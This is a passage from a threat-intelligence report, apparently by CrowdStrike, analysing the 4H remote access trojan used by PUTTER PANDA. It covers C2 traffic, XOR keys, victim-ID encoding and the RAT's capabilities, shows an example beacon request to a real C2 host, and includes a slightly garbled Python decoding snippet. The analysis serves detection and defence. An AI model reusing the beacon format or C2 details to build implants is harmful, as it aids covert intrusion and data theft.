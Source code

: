 #### 4H RAT - EXAMPLE MD5 HASH A76419A2FCA12427C887895E12A3442B

This RAT was first analyzed by CrowdStrike in April 2012, but a historical analysis shows that it has been in use since at least 2007 by the PUTTER PANDA actors. A listing of metadata for known samples, including C2 information, is shown in Appendix 1.

The operation of this RAT is described in detail in other CrowdStrike reporting, but is useful to revisit here to highlight the characteristics of the RAT:

- C2 occurs over HTTP, after connectivity has been verified by making a distinctive request (to the URI / search?qu= at www.google.com).
- A victim identifier is generated from the infected machine's hard disk serial number, XOR'ed with the key ldd46!yo , and finally nibble-wise encoded as upper-case ASCII characters in the range (A-P) – e.g., the byte value 0x1F becomes "BP".
- A series of HTTP requests characterizes the RAT's C2. The initial beacon uses a request with four parameters
- (h1, h2, h3, and h4) as shown in Figure 8 to register the implant with the C2 server.
- Communication to and from the C2 server is obfuscated using a 1-byte XOR with the key 0xBE.
- · The commands supported by the RAT enable several capabilities, including:
	- o Remote shell
	- o Listing of running processes (including loaded modules)
	- o Process termination (specified by PID)
	- o File and directory listing
	- o File upload, download, deletion, and timestamp modification

![](_page_28_Picture_0.jpeg)

![](_page_28_Picture_2.jpeg)

GET /search513417?h1=51&h2=1&h3=213383&h4=FMFEFEFHAEBIBLFPFLFCACFC HTTP/1.1 Accept: * /* User-Agent: Mozilla/5.0 (compatible; AIAFBCFBBLBBBNFKFPAFAGAFFDBBEL; ) Host: radio.gamemuster.com Connection: Keep-Alive Figure 8. 4H RAT Example Beacon

#### Where:

```
13417
           = Random number
           = OS version identifier (51 = Windows XP)
h1=51
h2=1
           = Proxy usage (1 = direct connection/no proxy, 3 = proxy used)
h3=213383
            = Campaign identifier
h4=FMFEFEFHAEBIBLFPFLFCACFC
            = Victim identifier (encoded as described above)
AIAFBCFBBLBBBNFKFPAFAGAFFDBBEL
            = Encoded victim hostname (in this example "dave-0d53ab1e02")
```

```
def decode ua hostname (instring, key="ldd46!yo") :
    from binascii import unhexlify
    stage1 = unhexlify("".join([hex(ord(c) - 0x41)[2:] for c in instring]))
    return "".join({chr(ord(c) ^ ord(key[i % len(key)])) for i, c in
enumerate (stage1) ] )
```
Figure 9. Sample Python Code to Decode Hostname from User-Agent Snippet
